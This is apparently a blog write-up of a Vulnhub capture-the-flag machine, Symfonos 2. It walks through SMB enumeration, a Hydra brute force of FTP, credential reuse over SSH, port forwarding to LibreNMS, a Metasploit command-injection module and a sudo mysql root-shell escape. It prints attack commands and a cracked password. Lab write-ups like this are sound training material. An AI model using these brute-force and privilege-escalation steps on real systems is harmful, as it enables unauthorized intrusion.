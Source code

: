 ```yaml
---
layout: PostSimple
date: 2020-03-10
title:     "Vulnhub - Symfonos 2"
tags: ['medium','ftp','port_forward','smb','hydra','sudo']
---
```


Today, We are going to pwn Symfonos 2 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-2,331/](https://www.vulnhub.com/entry/symfonos-2,331/)


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:71:B2:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: [unknown](unknown), NetBIOS MAC: [unknown](unknown) (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2020-03-09T12:31:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T17:31:01
|_  start_date: N/A
```

Lot of Ports open, I started with ``smb``

## SMB :

We can use smbmap to see is there any files available.

 > smbmap - SMB enumeration tool

> -H HOST   		IP of host

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/1.png)

So ``anonymous`` is having ``log.txt`` in ``/backups`` which is readable.

There is a tool called ``smbclient`` which helps to access to the server.

> smbclient - ftp-like client to access SMB/CIFS resources on servers

I tried login with ``anonymous`` without password and it worked, Downloaded the ``log.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/2.png)

``log.txt`` 

Its the ``smb`` configuration, the Interesting thing is 


shadow file is stored in /var/backups/shadow.bak
``
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
``


The exact path of the SMB share 
```
[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
```
There is also FTP Conf file 

``root@symfonos2:~# cat /usr/local/etc/proftpd.conf``

So FTP is running under the user ``aeolus`` not anonymous.
```
# Set the user and group under which the server will run.
User				aeolus
Group				aeolus
```

## FTP :

We know the FTP is running under ``aeolus`` user but we don't have the password for it, So I started bruteforcing it using ``hydra``.

>hydra - a very fast network logon cracker which supports many different services


>hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.101

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/3.png)


``aeolus : sergioteamo ``

Its the same ``log.txt`` we got from ``SMB``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/4.png)

## SSH :

I used the same creds for ``ssh``

``aeolus : sergioteamo ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/5.png)

## Privilege Escalation :

Uploaded My Enumeration script to the machine and found some ports are listening to the machine.

```
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!
---
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128    127.0.0.1:8080                  *:*                  
tcp    LISTEN     0      20     127.0.0.1:25                    *:*                  
---
```

```
Port 3306 - MySQL
Port 25 - SMTP
Port 8080 - Webpage (Maybe)
```
I confirmed it by using ``curl``, There is a login page.
```
aeolus@symfonos2:/tmp$ curl localhost:8080
[!DOCTYPE html](!DOCTYPE html)
[html](html)
    [head](head)
        [meta charset="UTF-8" /](meta charset="UTF-8" /)
        [meta http-equiv="refresh" content="0;url=http://localhost:8080/login" /](meta http-equiv="refresh" content="0;url=http://localhost:8080/login" /)

        [title](title)Redirecting to http://localhost:8080/login[/title](/title)
    [/head](/head)
    [body](body)
        Redirecting to [a href="http://localhost:8080/login"](a href="http://localhost:8080/login")http://localhost:8080/login[/a](/a).
    [/body](/body)
[/html](/html)You have new mail in /var/mail/aeolus
```

We can't see port 8080 directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

For that press ``~C`` will open ssh interactive shell and then ``-L 8081:127.0.0.1:8080`` Which port forward 8080 to 8081.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/6.png)

``http://127.0.0.1:8081/``

It's ``LibreNMS`` Login page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/7.png)

I searched for any exploits available and found this.

>https://www.rapid7.com/db/modules/exploit/linux/http/librenms_addhost_cmd_inject

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/8.png)

Now we got ``cronus`` user shell.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/9.png)

The First thing I did is ``sudo -l`` 

```
$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```
Looks like ``mysql`` can run as root without password.

I searched in [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/)

> sudo mysql -e '\! /bin/sh'

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/10.png)


